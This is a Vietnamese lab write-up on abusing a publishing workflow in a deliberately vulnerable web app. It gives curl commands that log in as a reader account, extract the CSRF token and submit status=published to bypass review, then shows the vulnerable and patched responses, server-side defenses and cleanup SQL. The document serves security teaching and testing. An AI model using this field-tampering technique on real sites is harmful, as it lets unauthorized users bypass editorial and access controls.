



# Kịch bản 9. Lạm dụng quy trình xuất bản

Tài liệu này trình bày riêng kịch bản, quy trình kiểm chứng, kết quả và biện pháp phòng thủ. Quy ước môi trường chung nằm trong [hướng dẫn kịch bản Web](../README.md).

## Lý thuyết

Ứng dụng tin tưởng trường trạng thái do máy khách gửi và không kiểm tra vai trò, chủ sở hữu hay thứ tự nghiệp vụ.

## Kỹ thuật và công cụ sử dụng

Sửa trường trạng thái do máy khách gửi và kiểm tra quyền chuyển trạng thái tại máy chủ.

**Dữ liệu thử:** Tài khoản độc giả giả `lan`; bài viết nháp do lab tạo; request sửa trạng thái.

**Công cụ và giao diện:** Trình duyệt DevTools hoặc `curl`; endpoint lưu bài viết.

**Mã nguồn liên quan:** [`app/src/Controllers/EditorController.php`](../../../../app/src/Controllers/EditorController.php), [`app/src/Controllers/AdminController.php`](../../../../app/src/Controllers/AdminController.php).

## Môi trường và dữ liệu thử

Bài viết `id=5` của `lan` đang ở trạng thái `draft`. Tài khoản `lan` có vai trò độc giả, được tạo bản nháp nhưng không được tự xuất bản.

## Cách thực hiện

```bash
# Đăng nhập tài khoản độc giả
html="$(curl -sS -c "$JAR" "$BASE/login")"
token="$(printf '%s' "$html" | sed -n 's/.*name="_csrf" value="\([^"]*\)".*/\1/p' | head -1)"
curl -sS -b "$JAR" -c "$JAR" \
  --data-urlencode "username=lan" \
  --data-urlencode "password=Lan@Lab#2026" \
  --data-urlencode "_csrf=$token" \
  -o /dev/null "$BASE/login"

curl -sS -b "$JAR" -c "$JAR" "$BASE/editor/edit?id=5" -o /tmp/edit.html
token="$(sed -n 's/.*name="_csrf" value="\([^"]*\)".*/\1/p' /tmp/edit.html | head -1)"

curl -sS -b "$JAR" -c "$JAR" \
  --data-urlencode "id=5" \
  --data-urlencode "title=Ghi chu ky thuat ve quy trinh xuat ban" \
  --data-urlencode "summary=Ban nhap" \
  --data-urlencode "body=Noi dung bai viet nhap du dai de kiem tra quy trinh." \
  --data-urlencode "status=published" \
  --data-urlencode "_csrf=$token" \
  -o /dev/null -w '%{http_code}\n' "$BASE/editor/save"
```

## Kết quả trên cấu hình có lỗi

```text
302
```

Kiểm tra trạng thái:

```bash
bash scripts/mysql-app.sh -N -e "SELECT status FROM posts WHERE id=5;"
```

Kết quả:

```text
published
```

Tài khoản độc giả tự xuất bản bài nháp, bỏ qua bước gửi duyệt và bước kiểm tra của quản trị viên.

## Biện pháp phòng thủ

Máy chủ kiểm tra vai trò, chủ sở hữu, trạng thái hiện tại và trạng thái đích. Độc giả chỉ được đặt `draft` hoặc `pending`; tác giả được xuất bản bài của mình; quản trị viên được xuất bản mọi bài. Trạng thái `published` chỉ được chấp nhận từ bài đang `pending` thông qua endpoint quản trị.

## Kết quả trên cấu hình đã vá

```text
403
Trạng thái không được phép
```

Trạng thái trong cơ sở dữ liệu vẫn là `draft`. Quy trình hợp lệ: người dùng gửi `pending`, quản trị viên mở `/admin` và bấm xuất bản.

## Dọn dữ liệu sau kiểm thử

```bash
bash scripts/mysql-app.sh -e "UPDATE posts SET status='draft' WHERE id=5;"
```


## Ảnh minh chứng

**Độc giả chọn trạng thái Xuất bản.**



**Bài viết bị xuất bản sai quy trình.**



**Giao diện trạng thái trên bản đã vá.**


**Yêu cầu xuất bản trực tiếp bị từ chối.**


